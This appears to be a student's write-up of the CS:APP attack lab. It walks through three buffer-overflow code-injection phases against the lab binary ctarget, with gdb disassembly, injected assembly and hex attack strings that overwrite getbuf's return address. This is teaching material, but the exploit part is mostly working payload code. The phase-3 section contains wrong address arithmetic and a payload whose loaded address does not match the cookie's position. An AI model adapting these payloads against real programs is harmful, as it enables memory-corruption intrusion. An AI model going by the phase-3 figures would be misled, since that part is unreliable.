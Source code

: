 # The attack lab 

## The attack 1

This one is simply a code injection, it will use t

he function `getbuf`
```nasm
(gdb) disas getbuf
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:	sub    $0x28,%rsp
   0x00000000004017ac <+4>:	mov    %rsp,%rdi
   0x00000000004017af <+7>:	call   0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    $0x1,%eax
   0x00000000004017b9 <+17>:	add    $0x28,%rsp
   0x00000000004017bd <+21>:	ret
End of assembler dump.
```
So it will allcate a space of 32+8 = 40 bytes space. It more than 40 bytes is 
given, it will get more space from the stack .
So we need to attach the address of the function touch1 to the injection data.

```nasm
(gdb) disas touch1
Dump of assembler code for function touch1:
   0x00000000004017c0 <+0>:	sub    $0x8,%rsp
   0x00000000004017c4 <+4>:	movl   $0x1,0x202d0e(%rip)        # 0x6044dc <vlevel>
   0x00000000004017ce <+14>:	mov    $0x4030c5,%edi
   0x00000000004017d3 <+19>:	call   0x400cc0 <puts@plt>
   0x00000000004017d8 <+24>:	mov    $0x1,%edi
   0x00000000004017dd <+29>:	call   0x401c8d <validate>
   0x00000000004017e2 <+34>:	mov    $0x0,%edi
   0x00000000004017e7 <+39>:	call   0x400e40 <exit@plt>
End of assembler dump.
```

So the final input is 
```c
00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```
For the reason of little endian storage. So it is like this. 

## The attack 2
In this problem, we need to inject the data which contianis the cookie. 

Disassemble the function touch2, we can get the code below.

```nasm
Dump of assembler code for function touch2:
   0x00000000004017ec <+0>:	sub    $0x8,%rsp
   0x00000000004017f0 <+4>:	mov    %edi,%edx
   0x00000000004017f2 <+6>:	movl   $0x2,0x202ce0(%rip)        # 0x6044dc <vlevel>
   0x00000000004017fc <+16>:	cmp    0x202ce2(%rip),%edi        # 0x6044e4 <cookie>
   0x0000000000401802 <+22>:	jne    0x401824 <touch2+56>
   0x0000000000401804 <+24>:	mov    $0x4030e8,%esi
   0x0000000000401809 <+29>:	mov    $0x1,%edi
   0x000000000040180e <+34>:	mov    $0x0,%eax
   0x0000000000401813 <+39>:	call   0x400df0 <__printf_chk@plt>
   0x0000000000401818 <+44>:	mov    $0x2,%edi
   0x000000000040181d <+49>:	call   0x401c8d <validate>
   0x0000000000401822 <+54>:	jmp    0x401842 <touch2+86>
   0x0000000000401824 <+56>:	mov    $0x403110,%esi
   0x0000000000401829 <+61>:	mov    $0x1,%edi
   0x000000000040182e <+66>:	mov    $0x0,%eax
   0x0000000000401833 <+71>:	call   0x400df0 <__printf_chk@plt>
   0x0000000000401838 <+76>:	mov    $0x2,%edi
   0x000000000040183d <+81>:	call   0x401d4f <fail>
   0x0000000000401842 <+86>:	mov    $0x0,%edi
   0x0000000000401847 <+91>:	call   0x400e40 <exit@plt>
End of assembler dump.
```
The touch2's parameter is `val`, this val is storaged in the `rdi`, so our target 
is to set the `rdi` to be `cookie`

In this way, we can do like this 

使用汇编生成一段攻击的代码，将rdi的值设置为cookie，同时将touch2的地址push到我们的栈
中去。

```nasm
pushq $0x4017ec # The address of the touch2 
mov $0x59b997fa, %rdi 
ret
```

```nasm
> gcc -c hack.s
> ls
ans11.txt  ans21.txt  attacklab.pdf  ctarget  farm.c  hack.s   note.md     rtarget
ans1.txt   ans2.txt   cookie.txt     ctar.s   hack.o  hex2raw  README.txt
> objdump -d hack.o

hack.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
   7:	68 ec 17 40 00       	push   $0x4017ec
   c:	c3                   	ret    
```

> When you gdb the ctarget, you should `set args -q -i [file]` 
> Then  `b getbuf` , you can get the top of the stack 

```nasm
(gdb) disas
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:	sub    $0x28,%rsp
=> 0x00000000004017ac <+4>:	mov    %rsp,%rdi
   0x00000000004017af <+7>:	call   0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    $0x1,%eax
   0x00000000004017b9 <+17>:	add    $0x28,%rsp
   0x00000000004017bd <+21>:	ret
End of assembler dump.
(gdb) info r rsp
rsp            0x5561dc78          0x5561dc78
```
So the attack string should be
```c
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
78 dc 61 55
```

In the code, it will return to the top of the stack. Then it will 
execute the hack code. The `edi` will be like the cookie,and it will be push 
into the stack.

# The attack 3

In the attack 3, it use the function hexmatch, so the stack will be changed. 
If you storage the data of the cookie in the stack place allcated by the getbuf
will be changed, so we need to palce the cookie into the older place. 

```c
ff 34 25 fa 18 40 00 48 
c7 c7 a8 1d 56 05 c3 00  <<== top of the stack (0x5561dc78)
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
78 dc 61 55 00 00 00 00 <<== ret 
35 39 62 39 39 37 66 61 <<== cookie (0x5561dc78 + 30 = 0x5561da8)  
```


